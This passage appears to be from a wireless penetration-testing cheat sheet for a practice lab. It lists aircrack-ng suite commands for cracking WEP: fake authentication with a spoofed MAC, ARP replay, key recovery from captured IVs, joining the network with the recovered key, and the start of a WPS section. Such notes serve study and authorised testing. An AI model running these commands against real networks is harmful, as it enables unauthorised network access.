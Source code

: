 Fake Authentication:
```
sudo aireplay-ng -1 0 -a <target-bssid> -e "wifi-test" wlan0mon
```

Fake Authentication spoofed MAC (try one of the station MACs or another invented MAC):
```
sudo aireplay-ng -1 0 -a <target-bssid> -h 00:AA:AA:AA:AA -e "wifi-test" wlan0mon
```

ARP Replay to generate more traffic:
```
sudo aireplay-ng --arpreplay -b <target-bssid> -h 00:AA:AA:AA:AA <interface_in_mointor_mode>
```

> Note: The interface mac address you can use anything also you if you would like to spoof one

## Crack Key through IVs

```
sudo aircrack-ng wep-01.cap
```

## Connect to WEP Network

Now we can connect to the network using the recovered key:

```
sudo airmon-ng stop wlan0mon

nano wep.conf
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0=11BB33CD55
  wep_tx_keyidx=0
}

sudo wpa_supplicant -i wlan0 -c wep.conf

sudo dhclient wlan0 -v
```

Proof.txt
```
curl http://<ip>/proof.txt
```

# WPS

## Setup Interface

```
sudo airmon-ng check kill && sudo airmon-ng start wlan0
```
